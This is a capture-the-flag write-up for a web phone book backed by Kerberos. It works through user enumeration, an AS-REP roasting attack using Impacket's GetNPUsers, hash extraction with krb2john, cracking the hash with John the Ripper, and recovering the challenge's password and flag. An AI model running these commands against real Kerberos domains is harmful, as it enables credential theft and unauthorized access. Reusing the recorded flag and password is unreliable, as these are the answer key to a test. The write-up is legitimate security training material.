

# Phone Book

Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on `http://78.128.246.142`, don't make them wait too long.

Good Luck!

---

This is the web:



Login with random credentials returns:
> invalid credentials, ('Client not found in Kerberos database', -1765328378)

Ok, so we're dealing with Kerberos here..

Next, I did port scan to look for Kerberos KDC (_Key Distribution Center_):
```
$ nmap 78.128.246.142
..
PORT   STATE SERVICE
80/tcp open  http
88/tcp open  kerberos-sec
```

## Step 1: Username enumeration

At first, I was trying to do various Kerberos user enumeration attacks using _nmap_ script `krb5-enum-users` and
[Kerbrute](https://github.com/ropnop/kerbrute).
I couldn't find any valid usernames though. I tried a few different username lists.

No luck with:
```
$ nmap -p 88 --script= --script-args krb5-enum-users.realm='SUPERPHONEBOOK.TCC',userdb=my-krb-users.txt 78.128.246.142
$ ./kerbrute_linux_amd64 userenum --dc 78.128.246.142 -d SUPERPHONEBOOK.TCC MY-krb-users.txt
```

Then, I decided to fuzz the web app a bit. I got lucky when fuzzing _search_ with SQLi payloads `query=123 or 1=1 --`:
```
email: tytso@superphonebook.tcc<p>
name: Theodore Ts&#39;o<p>
homepage: <p>
phone: anonymous phone search disabled<p>
```

Test if it's a valid username (configure `krb5.conf` first):
```
$ kadmin -p tytso
Authenticating as principal tytso with password.
Password for tytso@SUPERPHONEBOOK.TCC:
```

Bingo! This is a valid user. Otherwise we wouldn't be asked for the password.

At first, I thought it's a SQLi but that's not true. It's just the `or` part which is contained in `TheodORe` name.
Other characters were stripped.

The search algorithm accepts at least 2 characters. Easy to enumerate them all (`[a-z]{2}`) using _OWASP ZAP_.
I discovered 4 records in total:
```
email: aaron@superphonebook.tcc
name: Aaron Spelling
homepage: http://enumerate.more
phone: anonymous phone search disabled

email: bill@superphonebook.tcc
name: Bill Bryant
homepage: https://web.mit.edu/kerberos/www/dialogue.html
phone: anonymous phone search disabled

email: harmj0y@superphonebook.tcc
name: Will Schroeder
homepage: https://www.harmj0y.net
phone: anonymous phone search disabled

email: tytso@superphonebook.tcc
name: Theodore Ts'o
homepage:
phone: anonymous phone search disabled
```

However, only `tytso` has a Kerberos account. Others are probably just hints.

## Step 2: Get hash to crack

See [ASREPRoast attack](https://kylemistele.medium.com/impacket-deep-dives-vol-2-attacking-kerberos-922e8cdd472a).

```
$ python3 GetNPUsers.py SUPERPHONEBOOK.TCC/tytso -dc-ip 78.128.246.142 -no-pass -format john
Impacket v0.9.24.dev1+20211022.182843.4229481c - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for tytso
$krb5asrep$tytso@SUPERPHONEBOOK.TCC:915e778e3b41ef7138817deda726a6a7$a34ae6e42c3a74a01f92a54153d2b569a68cba0f627edefb82578794fdcaecdf1c82d68675bf0deb1467d28dac5a6ea8ef1e4f29ada4408101d36e489d32520f9d453712152b6e12d6007bf3b39606ddfa2f6043514b2f36da02ddf9a62456ba225c892162fef69683b7ce6f0caf2bf6b635f090ab88bcefda541155f78c022589e9884a2d2a85b38767319fa27dd56de32b96a05be61ad49800144d756c30e9e89c2723fdc3d78586dbe0f526ea20afd2830de840882515142ca115e6ee0ffbcdda2a7a87c5b88e527ecd53f03b9615d56911b72ca94239aacec911f198942432d47813da5d
```

This is where things started to went wrong. One of the official hint was:
> Impacket is not always the best friend ...

I should have listened. The issue is that the hash produced by [Impacket](https://github.com/SecureAuthCorp/impacket)
is not crackable with John. I don't know why, but it's definitely not well-formatted.

After lots of struggling with cracking the password (probably the biggest rabbit hole being the fact
`tytso` is the author of [pwgen](https://github.com/tytso/pwgen) password generator, which is however completely
unrelated to this challenge), I ran into
[krb2john.py](https://github.com/openwall/john/blob/1.9.0-Jumbo-1/run/krb2john.py) script.

### krb2john.py

1) Run Wireshark and capture the Kerberos packets. You can use _Impacket_ for provoking the authentication.
2) Save the capture as `kerb.pcapng`.
3) Convert it to `pdml` format: `$ tshark -r kerb.pcapng -T pdml > kerb.pdml`
4) Extract the hash:
   ```
   $ python3 /usr/share/john/krb2john.py kerb.pdml
   $krb5asrep$18$SUPERPHONEBOOK.TCCtytso$73887cda1214e43cc5c5d64b4987e1a9c82f548ad5db4f50cc9eb203bc66e959bfee6e5ed661f50c383a1b7fefe4b4901d94baedcc5e849077f306df912104a2d82c48645ec25c99108dd0aec67aa64b1a3d8ec7169f7f592fc5eb5a3b29efdeb4791b4a5ee9353d1aa25c8f18e9fa7b95cdddb3702d233002596b72514fd9120749eeeb1a433221e5189037ae355bf0dfe3b6fc876796849ac5f829bbbfcf438dd3e5d4143dc09b7fdeeb9d0aa115dcb679ff676d266e14989e7c87bcefd3663d0dffe8f267db90a70ed8af3aa1ba01bbc32e1008f6cf26f748a5141f2411b0cf25f4897064264b7436$7946a63bbe88d45deabb5e7b
   ```
5) Save this hash as `kerb.hash`.

## Step 3: Crack the hash

With the correct hash, cracking is very easy:
```
$ john kerb.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
garfunkel4       (?)
1g 0:00:00:03 DONE 2/3 (2021-10-27 11:00) 0.2506g/s 12318p/s 12318c/s 12318C/s inlove4..ship4
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is `garfunkel4`.

## Step 4: Grab the flag

Login on the web using `tytso/garfunkel4` and search for `Theo`. Flag is stored as Theo's phone:
```
FLAG{MLeq-38Tt-Y1Tz-NdE9}
```

Very nice challenge, except for the broken _Impacket_ script...